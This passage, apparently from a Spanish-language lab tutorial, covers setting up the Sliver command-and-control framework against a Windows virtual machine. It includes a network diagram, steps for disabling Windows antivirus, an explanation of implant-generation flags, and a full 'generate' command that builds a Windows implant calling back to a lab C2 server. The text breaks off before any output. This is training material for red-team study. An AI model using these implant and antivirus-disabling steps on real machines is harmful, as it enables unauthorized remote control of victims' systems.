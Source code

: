 {% code title="Esquema" overflow="wrap" %}
```
+-------------------+                         +-------------------+
|                   |         Download binary |                   |
|     C2 Server     +--8000 <-----------------+      Target       |
|      (Linux)      |                         |     (Windows)     |
|                   |         C2 Connection   |                   |
|    172.19.0.128   +--8888 <-----------------+    172.19.0.131   |
|                   |                         |                   |
+-------------------+                         +-------------------+
```
{% endcode %}

### Preparación del objetivo

Vaya a [<mark style="color:green;">**Microsoft Windows Evaluation Center**</mark>](https://www.microsoft.com/en-us/evalcenter) y descargue una copia de windows, en mi caso usaré una copia de Windows 10 Enterprice. Use esta imagen para crear su propia Windows WM.

Solo requiere una instalación básica, no se preocupe si tiene una versión diferente a la mostrada en  este blog. Después de la instalación, desactive el antivirus de windows, ya que en esta sección no se cubrirá la evasión de sistemas EDR o Antivirus. Puede hacerlo abriendo la GUI de windows “Virus & Threat Protection” y deshabilitar todas las protecciones. Debe quedar algo así:

<figure><img src="https://dominicbreuker.com/img/25_sliver_c2_beacons_and_sessions/av_off_gui.png" alt=""><figcaption></figcaption></figure>

## Sesiones

### Generación de implante

Para generar un implante C2 con sliver de tipó session, solo ocupe el comando `generate`. Si tiene dudas de todas las opciones que puede modificar utilice la ayuda con `generate --help`. A qui va una explicación de las banderas para generar un implante con mTLS:

* `--mtls 172.19.0.128`: Especifica el protocolo de comunicación que el implante usará en este caso TLS multiple. Otras banderas que se pueden utilizar son `--wg` para WireGuard, `--http` para HTTP(S) o `--dns` para DNS-based C2.
* `--os windows`: Especifica el sistema operativo objetivo el cual va a correr el implante, por defecto tiene windows y no es necesario especificarlo. MacOS Y Linux también son soportados.
* `--arch amd64`: Especifica que queremos un implante de 64 bits (también por defecto, puede omitirse). Utilice `--arch 386` para un implante de a 32-bit.
* `--format exe`: Especifica que queremos un archivo ejecutable (de nuevo por defecto). Otras opciones son , `--format service` para bibliotecas dinámicas,  `--format shared` para un binario de servicio de Windows (puede usarse con el comando `psexec`) y `shellcode` (sólo windows).
* `--save ~/Documents/sliverTest`: Especifica donde guardar el implante

{% code overflow="wrap" %}
```bash
generate --mtls 172.19.0.128 --os windows --arch amd64 --format exe --save ~/Documents/sliverTest/
```
{% endcode %}

Debe verse algo parecido a esto:
